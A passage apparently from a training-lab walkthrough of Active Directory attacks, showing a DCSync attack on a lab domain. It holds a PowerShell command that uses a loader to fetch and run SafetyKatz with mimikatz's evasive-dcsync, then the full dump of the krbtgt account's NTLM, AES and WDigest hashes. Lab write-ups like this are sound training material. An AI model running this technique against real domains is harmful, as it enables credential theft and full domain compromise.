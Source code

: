 <figure><img src="../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

NTLM : `4e9815869d2090ccfca61c1fe0d23986`

To get NTLM hash and AES keys of the krbtgt account, we can use the DCSync attack. Run the below command from process running as Domain Admin on the student VM:

```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```

```powershell
Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 11/11/2022 10:59:41 PM
Object Security ID   : S-1-5-21-719815819-3726368948-3917688648-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 4e9815869d2090ccfca61c1fe0d23986
    ntlm- 0: 4e9815869d2090ccfca61c1fe0d23986
    lm  - 0: ea03581a1268674a828bde6ab09db837

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6d4cc4edd46d8c3d3e59250c91eac2bd

* Primary:Kerberos-Newer-Keys *
    Default Salt : DOLLARCORP.MONEYCORP.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848
      aes128_hmac       (4096) : e74fa5a9aa05b2c0b2d196e226d8820e
      des_cbc_md5       (4096) : 150ea2e934ab6b80

* Primary:Kerberos *
    Default Salt : DOLLARCORP.MONEYCORP.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 150ea2e934ab6b80

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  a0e60e247b498de4cacfac3ba615af01
    02  86615bb9bf7e3c731ba1cb47aa89cf6d
    03  637dfb61467fdb4f176fe844fd260bac
    04  a0e60e247b498de4cacfac3ba615af01
    05  86615bb9bf7e3c731ba1cb47aa89cf6d
    06  d2874f937df1fd2b05f528c6e715ac7a
    07  a0e60e247b498de4cacfac3ba615af01
    08  e8ddc0d55ac23e847837791743b89d22
```